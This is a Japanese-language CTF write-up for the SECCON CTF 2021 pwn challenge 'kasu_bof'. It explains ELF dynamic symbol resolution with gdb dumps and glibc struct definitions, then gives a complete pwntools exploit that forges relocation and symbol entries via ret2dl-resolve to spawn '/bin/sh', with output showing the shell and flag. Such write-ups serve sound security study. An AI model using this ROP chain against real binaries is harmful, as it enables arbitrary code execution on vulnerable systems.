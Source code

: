 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2022-11-11T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "mc4nf"
---


#+HUGO_BASE_DIR: ./

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~
      
**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
- x86
- SSP無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~buf~ のサイズが ~0x80~ 
- ~gets~ を使用しているため、 ~\n~ (0x0a) が入力されるまで ~buf~ に任意の文字を入力可能

  
このことから，配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる．


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため，
スタックバッファオーバフローを利用して， ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである．


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスが解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。

   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~shell~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体のオブジェクト、および NULL終端文字列 ~"system"~ と ~"/bin/sh"~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ が ~Elf32_Rel~ 構造体を特定するために引数に取る ~reloc_arg~ を、偽の ~Elf32_Rel~ を指すように指定
   3. ~.plt~ の先頭にジャンプし、偽の構造体を元に ~system~ のアドレスを解決し、 ~system("/bin/sh")~ を実行

   そこで、以下では、pltセクションからアドレス解決の流れを説明し、如何にして偽の構造体を作成すればよいかについて説明する。
      
*** ~.plt~ セクションからアドレス解決の流れ
    ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。

    
    そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


    参考
    #+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    |  'gets'  |
                                                                                                   |-----------+----------|
    #+end_example
    
**** ~link_map~ 構造体
   ~link_map~ はELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス，再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。   

   ~plt~ にジャンプする前に、 ~link_map~ 構造体のアドレス（GOTの2番目のエントリ）とGOTのオフセット ( ~reloc_arg~ )がスタックに格納される。
     - https://elixir.bootlin.com/glibc/latest/source/include/link.h#L86
	 #+begin_src c
	   /* Structure describing a loaded shared object.  The `l_next' and `l_prev'
	      members form a chain of all the shared objects loaded at startup.

	      These data structures exist in space used by the run-time dynamic linker;
	      modifying them may have disastrous results.

	      This data structure might change in future, if necessary.  User-level
	      programs must avoid defining objects of this type.  */

	   struct link_map
	     {
	       /* These first few members are part of the protocol with the debugger.
		  This is the same format used in SVR4.  */

	       ElfW(Addr) l_addr;		/* Difference between the address in the ELF
					      file and the addresses in memory.  */
	       char *l_name;		/* Absolute file name object was found in.  */
	       ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
	       struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
	 #+end_src
	 
     以下の例の場合， ~link_map~ 構造体のアドレス ~0x804c004~ と ~gets~ の ~reloc_arg~ ~0x0~ をスタックにプッシュしている。
	#+begin_src
     gef➤  x/10i $eip
     => 0x8049030:   push   DWORD PTR ds:0x804c004
	0x8049036:   jmp    DWORD PTR ds:0x804c008
	0x804903c:   add    BYTE PTR [eax],al
	0x804903e:   add    BYTE PTR [eax],al
	0x8049040 <gets@plt>:        jmp    DWORD PTR ds:0x804c00c
	0x8049046 <gets@plt+6>:      push   0x0
	0x804904b <gets@plt+11>:     jmp    0x8049030
	0x8049050 <__libc_start_main@plt>:   jmp    DWORD PTR ds:0x804c010
	0x8049056 <__libc_start_main@plt+6>: push   0x8
	0x804905b <__libc_start_main@plt+11>:        jmp    0x8049030
	#+end_src
   

   以下のサイトを参考に、gdbで、ELFの構造体を読み込めるようにする。
   - https://inaz2.hatenablog.com/entry/2014/07/21/124857
     - gdbに ~link.h~ および ~elf.h~ のシンボル情報を読み込み
       #+begin_src 
	 gcc -g -fno-eliminate-unused-debug-types -x c -m32 -c /usr/include/link.h -o link.o
       #+end_src
       今回はx86のELFを対象としているため ~-m32~ オプションを指定

   特定した ~link_map~ 構造体のアドレス ~0xf7ffd990~ の中身を表示してみる。
   #+begin_src 
	 gef➤  add-symbol-file link.o 0
	 add symbol table from file "link.o" at
		 .text_addr = 0x0
	 Reading symbols from link.o...
	 gef➤  set $l = (struct link_map *) 0xf7ffd990
	 gef➤  print *$l
	 $1 = {
	   l_addr = 0x0,
	   l_name = 0xf7ffdc84 "",
	   l_ld = 0x804bf14,
	   l_next = 0xf7ffdc90,
	   l_prev = 0x0
	 }
   #+end_src

**** ~.dynamic~ セクション
  ~.dynamic~ セクションのアドレスは， ~link_map~ 構造体の ~l_ld~ に格納されるため、
  ~.dynamic~ セクションのアドレスは ~0x804bf14~ であるとわかる。
   
  ~.dynamic~ セクションは， ~ELF_Dyn~ 構造体のエントリを ~d_tag~ の種類の数保持しており、この中に ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ などのアドレスが格納されている。
    - ELF_Dyn 構造体
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L838
	#+begin_src c
	  /* Dynamic section entry.  */

	  typedef struct
	  {
	    Elf32_Sword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf32_Word d_val;			/* Integer value */
		Elf32_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf32_Dyn;

	  typedef struct
	  {
	    Elf64_Sxword d_tag;			/* Dynamic entry type */
	    union
	      {
		Elf64_Xword d_val;		/* Integer value */
		Elf64_Addr d_ptr;			/* Address value */
	      } d_un;
	  } Elf64_Dyn;
	#+end_src
	 
    - d_tagの定義
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L860
	#+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	#+end_src
	 
    また、このとき ~.dynamic~ セクションは， ~d_tag~ の順番に並んでいる訳ではないことに注意。
    - 以下の例では， ~DT_STRTAB, DT_SYMTAB~ は8，9番目のエントリ， ~DT_JMPREL, DT_REL~ は16，17番目のエントリに配置
      #+begin_src 
      0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
      0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
      ...
      0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
      0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
      0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
      0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
      ...
      0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
      0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
      0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
      0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
      ...
      #+end_src
       
**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは， ~ELF_Rel~ 構造体の配列となっている。
    - ELF_Rel 構造体
      - https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L632
	#+begin_src c
	  /* Relocation table entry without addend (in section of type SHT_REL).  */

	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	  } Elf32_Rel;

	  /* I have seen two different definitions of the Elf64_Rel and
	     Elf64_Rela structures, so we'll leave them out until Novell (or
	     whoever) gets their act together.  */
	  /* The following, at least, is used on Sparc v9, MIPS, and Alpha.  */

	  typedef struct
	  {
	    Elf64_Addr	r_offset;		/* Address */
	    Elf64_Xword	r_info;			/* Relocation type and symbol index */
	  } Elf64_Rel;

	  /* Relocation table entry with addend (in section of type SHT_RELA).  */

	  typedef struct
	  {
	    Elf32_Addr	r_offset;		/* Address */
	    Elf32_Word	r_info;			/* Relocation type and symbol index */
	    Elf32_Sword r_addend;		/* Addend */
	  } Elf32_Rela;

	  typedef struct
	  {
	    Elf64_Addr	r_offset;		/* Address */
	    Elf64_Xword r_info;			/* Relocation type and symbol index */
	    Elf64_Sxword r_addend;		/* Addend */
	  } Elf64_Rela;

	  /* RELR relocation table entry */

	  typedef Elf32_Word	Elf32_Relr;
	  typedef Elf64_Xword	Elf64_Relr;
      #+end_src

     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
      - ~reloc_arg~ が ~.rel.plt~ のインデックス
	#+begin_src 
	  gef➤  ser $reloc_arg = 0x0
	  gef➤  set $reloc = &((Elf32_Rel *)($l.l_ld[16].d_un.d_ptr))[$reloc_arg]
	  gef➤  print *$reloc
	  $10 = {
	      r_offset = 0x804c00c,
	      r_info = 0x107
	  }

	  gef➤  dd 0x080482d8
	  0x080482d8│+0x0000   0x0804c00c // getsのGOTエントリ (reloc_arg = 0x0)
	  0x080482dc│+0x0004   0x00000107
	  0x080482e0│+0x0008   0x0804c010 // __libc_start_mainのGOTエントリ (reloc_arg = 0x1)
	  0x080482e4│+0x000c   0x00000307
	  0x080482e8│+0x0010   0x00000000
	  0x080482ec│+0x0014   0x00000000
      #+end_src
	 
    ~r_info~ は，シンボルを解決するために使用される。
    ~r_info~ を 8 byte 右シフトすることにより， ~dynsym~ のインデックスを取得することができる。
    - ~r_info~ の定義
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))

	#define ELF64_R_SYM(i)			((i) >> 32)
	#define ELF64_R_TYPE(i)		((i) & 0xffffffff)
	#define ELF64_R_INFO(sym,type)		((((Elf64_Xword) (sym)) << 32) + (type))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは， ~Elf_Sym~ 構造体の配列となっている。
      - ELF_Sym 構造体
	- https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L517
	  #+begin_src c
	    /* Symbol table entry.  */

	    typedef struct
	    {
	      Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	      Elf32_Addr	st_value;		/* Symbol value */
	      Elf32_Word	st_size;		/* Symbol size */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf32_Section st_shndx;		/* Section index */
	    } Elf32_Sym;

	    typedef struct
	    {
	      Elf64_Word	st_name;		/* Symbol name (string tbl index) */
	      unsigned char st_info;		/* Symbol type and binding */
	      unsigned char st_other;		/* Symbol visibility */
	      Elf64_Section st_shndx;		/* Section index */
	      Elf64_Addr	st_value;		/* Symbol value */
	      Elf64_Xword st_size;		/* Symbol size */
	    } Elf64_Sym;
           #+end_src
	  - ~st_name~ は，実際にシンボルが置かれている ~.dynstr~ セクションのオフセット
    ~r_info~ からインデックスを計算し、 ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
      gef➤  set $symtab = (Elf32_Sym *)($l.l_ld[9].d_un.d_ptr)
      gef➤  set $sym = $symtab[$reloc.r_info>>8]
      gef➤  print $sym
      $7 = {
	st_name = 0x1a,
	st_value = 0x0,
	st_size = 0x0,
	st_info = 0x12,
	st_other = 0x0,
	st_shndx = 0x0
      }
    #+end_src
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが，シンボルを指すアドレスとなっている。
    - 以下の例では， ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し，その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
      gef➤  set $strtab = (char*)($l.l_ld[8].d_un.d_ptr)
      gef➤  set $undef_name = $strtab + $sym.st_name
      gef➤  print $undef_name
      $8 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  ((r_info>>8) + .dynsym)*sizeof(Elf32_Sym)      |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+----------|
                                                                                                   | symbol    | 'system' |
                                                                                                   |-----------+----------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = Elf32_Rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常は ~.got~ の対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から ~system~ のシンボルを配置したアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、global変数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には，以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体， ~system~ のシンボル，および ~/bin/sh~ の文字列が格納する．    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           | 4byte   |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 | 4byte   |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき， ~Elf32_Sym~ 構造体は， ~dynsym~ セクションのアドレスから， ~0x10~ byteの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)，
    必要なbyte数だけalignしている．

    Solverを書くときは，事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき，ROPで ~gets~ の引数として指定しておき，ROPチェインが発火後に，それぞれの構造体やシンボルを書き込んでいく．
        #+begin_src python
      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考のセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~/bin/sh~ を取れるように、 ~/bin/sh~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg
     #+end_src

*** Solver
**** solve.py
    #+begin_src python
      from pwn import *

      filename = './chall'
      chall = ELF(filename)

      # docker-compose up
      conn = remote('localhost', 9001)
      # conn = process(filename)

      plt = chall.get_section_by_name('.plt').header.sh_addr
      bss = chall.get_section_by_name('.bss').header.sh_addr
      rel = chall.get_section_by_name('.rel.plt').header.sh_addr
      dynsym = chall.get_section_by_name('.dynsym').header.sh_addr
      dynstr = chall.get_section_by_name('.dynstr').header.sh_addr
      gets_got = chall.got['gets']
      gets_plt = chall.plt['gets']

      # 0x08049022: pop ebx; ret;
      pop_ret = 0x08049022

      # .bss section
      # |-----------+---------------------------+---------|
      # | Elf32_Rel | r_offset                  | 8 byte  |
      # |           | r_info                    |         |
      # |-----------+---------------------------+---------|
      # |           |                           | 8 byte  |
      # |           |                           | (align) |
      # |-----------+---------------------------+---------|
      # | Elf32_Sym | st_name                   | 16 byte |
      # |           | st_value                  |         |
      # |           | st_size                   |         |
      # |           | st_info st_other st_shndx |         |
      # |-----------+---------------------------+---------|
      # |           |                           | 4byte   |
      # |-----------+---------------------------+---------|
      # | symbol    | 'system'                  | 4byte   |
      # |-----------+---------------------------+---------|
      # |           |                           | 4byte   |
      # |-----------+---------------------------+---------|
      # | argment   | '/bin/sh'                 | 4byte   |
      # |-----------+---------------------------+---------|
      # |           |                           |         |

      Elf32_Rel_addr = bss

      Elf32_Sym_addr = Elf32_Rel_addr + 0x10

      system_symbol_addr = Elf32_Sym_addr + 0x14

      sh_symbol_addr = system_symbol_addr + 0x1c

      # calc index of Elf32_Rel from .rel.plt
      reloc_arg = Elf32_Rel_addr - rel

      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)         # saved_ebp

      # gets(Elf32_Rel_addr)
      buf += p32(gets_plt)           # main return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Rel_addr)     # gets arg

      # gets(Elf32_Sym_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(Elf32_Sym_addr)     # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return addr
      buf += p32(system_symbol_addr) # gets arg

      # gets(sh_symbol_addr)
      buf += p32(gets_plt)           # pop ret return addr
      buf += p32(pop_ret)            # gets return  addr
      buf += p32(sh_symbol_addr)     # gets arg

      # system('/bin/sh')
      buf += p32(plt)                # pop ret return addr
      buf += p32(reloc_arg)          # reloc arg
      buf += p32(0xdeadbeef)         # padding
      buf += p32(sh_symbol_addr)     # system arg

      conn.sendline(buf)

      # create Elf32_Rel
      ###################################################################################
      # typedef struct
      # {
      #     Elf32_Addr	r_offset;		/* Address */
      #     Elf32_Word	r_info;			/* Relocation type and symbol index */
      # } Elf32_Rel;
      ###################################################################################
      r_offset = gets_got
      r_info   = ((Elf32_Sym_addr - dynsym)//0x10)<<8 | 7

      # |-----------+---------------------------+---------|
      # | Elf32_Rel | r_offset                  | 8 byte  |
      # |           | r_info                    |         |
      # |-----------+---------------------------+---------|
      Elf32_Rel = p32(r_offset)
      Elf32_Rel += p32(r_info)
    
      conn.sendline(Elf32_Rel)

      # create Elf32_Sym
      ###################################################################################
      # typedef struct
      # {
      #     Elf32_Word	st_name;		/* Symbol name (string tbl index) */
      #     Elf32_Addr	st_value;		/* Symbol value */
      #     Elf32_Word	st_size;		/* Symbol size */
      #     unsigned char st_info;		/* Symbol type and binding */
      #     unsigned char st_other;		/* Symbol visibility */
      #     Elf32_Section st_shndx;		/* Section index */
      # } Elf32_Sym;
      ###################################################################################
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0

      # |-----------+---------------------------+---------|
      # | Elf32_Sym | st_name                   | 16 byte |
      # |           | st_value                  |         |
      # |           | st_size                   |         |
      # |           | st_info st_other st_shndx |         |
      # |-----------+---------------------------+---------|
      Elf32_Sym = p32(st_name)
      Elf32_Sym += p32(st_value)
      Elf32_Sym += p32(st_size)
      Elf32_Sym += p8(st_info)
      Elf32_Sym += p8(st_other)
      Elf32_Sym += p16(st_shndx)

      conn.sendline(Elf32_Sym)

      # create system symbol
      # |-----------+---------------------------+---------|
      # | symbol    | 'system'                  | 4byte   |
      # |-----------+---------------------------+---------|
      conn.sendline(b'system')

      # create sh symbol
      # |-----------+---------------------------+---------|
      # | argment   | '/bin/sh'                 | 4byte   |
      # |-----------+---------------------------+---------|
      conn.sendline(b'/bin/sh')

      conn.interactive()
    #+end_src
    
**** 実行結果
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 pp.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) pp.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル pp.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル pp.57
    - Elf_Rel構造体について

- gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
  - https://inaz2.hatenablog.com/entry/2014/07/21/124857
